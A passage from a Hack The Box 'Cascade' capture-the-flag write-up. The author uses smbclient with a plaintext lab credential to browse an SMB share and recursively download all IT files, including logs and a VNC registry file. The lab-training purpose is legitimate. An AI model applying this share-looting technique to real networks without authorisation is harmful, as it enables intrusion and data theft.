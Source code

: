 #### smbclient

I checked **SYSVOL** first since it can sometimes contain passwords, but neither it nor **NETLOGON** had anything interesting.  The **print$** admin share only contained a bunch of printer drivers, and I didn't want to jump down the rabbit hole of looking for exploits there until I had exhausted all other avenues of enumeration.

```text
zweilos@kalimaa:~/htb/cascade$ smbclient -U r.thompson -W Cascade \\\\10.10.10.182\\data rY4n5eva
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

                13106687 blocks of size 4096. 7794950 blocks available
```

## Road to User

After connecting to the Data share, I found folders corresponding to each of the business unit security groups I had seen earlier. Since `r.thompson` is a member of the `IT` group I figured that was probably what he had access to.  \(I did check the other folders; no access\).

```text
smb: \> ls IT\
  .                                   D        0  Tue Jan 28 13:04:51 2020
  ..                                  D        0  Tue Jan 28 13:04:51 2020
  Email Archives                      D        0  Tue Jan 28 13:00:30 2020
  LogonAudit                          D        0  Tue Jan 28 13:04:40 2020
  Logs                                D        0  Tue Jan 28 19:53:04 2020
  Temp                                D        0  Tue Jan 28 17:06:59 2020

                13106687 blocks of size 4096. 7795046 blocks available
smb: \> tarmode
tar:311  tarmode is now full, system, hidden, noreset, quiet
smb: \> recurse
smb: \> prompt
smb: \> mget *
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as Meeting_Notes_June_2018.html (10.7 KiloBytes/sec) (average 10.7 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as ArkAdRecycleBin.log (6.9 KiloBytes/sec) (average 9.0 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as dcdiag.log (28.3 KiloBytes/sec) (average 15.4 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (13.8 KiloBytes/sec) (average 15.0 KiloBytes/sec)
```
